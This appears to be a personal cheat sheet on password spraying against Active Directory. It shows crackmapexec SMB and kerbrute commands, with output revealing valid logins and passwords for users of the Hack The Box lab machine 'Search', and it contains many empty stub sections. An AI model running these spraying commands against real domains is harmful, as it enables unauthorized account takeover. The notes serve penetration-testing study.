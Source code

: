 # [Password Spraying](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/password-spraying)

> Once you have found several valid usernames you can try the most common passwords (keep in mind the password policy of the environment) with each of the discovered users.
By default the minimum password length is 7

- [Password Spraying](#password-spraying)
    - [SMB](#smb)
    - [SSH](#ssh)
    - [Tools](#tools)
        - [cme / CrackMapExec](#cme-smb-ip--u-users-onlytxt--p-isolationiskey)
        - [kerbrute](#kerbrute-passwordspray-users3txt--d-searchhtb---dc-ip-isolationiskey)

# [Example](#example-1)

[cme smb $ip -u users-only.txt -p IsolationIsKey?](#cme-smb-ip--u-users-onlytxt--p-isolationiskey)
[kerbrute passwordspray](#kerbrute-passwordspray-users3txt--d-searchhtb---dc-ip-isolationiskey)

# SSH

-------------------------------------------

# SMB

# Tools

### cme smb $ip -u users-only.txt -p IsolationIsKey?
```sh
$ cme smb $ip -u users-only.txt -p IsolationIsKey?
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\hope.sharp:IsolationIsKey?
```

### [usernames.txt & passwords.txt]
https://0xdf.gitlab.io/2022/04/30/htb-search.html#password-spray
```sh
$ cme smb $ip -u domain_users.txt -p passwords.txt --continue-on-success | grep '[+]'
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\Hope.Sharp:IsolationIsKey? 
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\web_svc:@3ONEmillionbaby 
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\Edgar.Jacobs:@3ONEmillionbaby
```

### kerbrute passwordspray users3.txt -d search.htb --dc $ip IsolationIsKey?
```sh
$ kerbrute passwordspray users3.txt -d search.htb --dc $ip IsolationIsKey?
Version: v1.0.3 (9dad6e1) - 09/19/23 - Ronnie Flathers @ropnop

2023/09/19 05:16:07 >  Using KDC(s):
2023/09/19 05:16:07 >   10.10.11.129:88

2023/09/19 05:16:07 >  [+] VALID LOGIN:  hope.sharp@search.htb:IsolationIsKey?
2023/09/19 05:16:07 >  Done! Tested 4 logins (1 successes) in 0.095 seconds
```


### 
```sh

```

### 
```sh

```

### 
```sh

```

### 
```sh

```

### 
```sh

```

### 
```sh

```

### 
```sh

```

### 
```sh

```